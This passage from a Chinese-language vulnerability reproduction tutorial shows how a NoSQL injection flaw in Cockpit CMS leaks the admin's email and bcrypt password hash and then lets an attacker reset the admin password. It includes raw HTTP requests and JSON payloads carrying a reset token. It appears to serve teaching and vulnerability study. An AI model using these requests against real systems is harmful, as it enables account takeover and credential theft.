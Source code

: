 ### 获取用户密码

当获取了正确了`$token`之后，重新请求`auth/newpassword`：

```
POST /cockpit/auth/newpassword HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 60
Connection: close

{
    "token":"rp-bb6dfcbc16621bf95234355475d53114609bc6e8c336b"
}
```

[![img](nosql注入.assets/t012a96740d37070320.png)](https://p0.ssl.qhimg.com/t012a96740d37070320.png)

可以看到，我们得到了admin用户的邮箱信息和hash之后的密码！

hash值`$2y$10$IkeINxb9VlaZUJ5jwyBNdO\/x8QFlCd1UO8zLiZExGDLVFVJtjyoz6`是用PHP built-in加密函数`password_hash`加密的。如果你有足够大的密码库，我们也可以暴力破解。

### 重置用户密码

如果你没有那么多时间或是设备破解密码，我们可以借助`resetpassword`中的漏洞来直接重置密码：

```
{
    "token":"rp-bb6dfcbc16621bf95234355475d53114609bc6e8c336b",
    "password":"123456hahha"
}
```
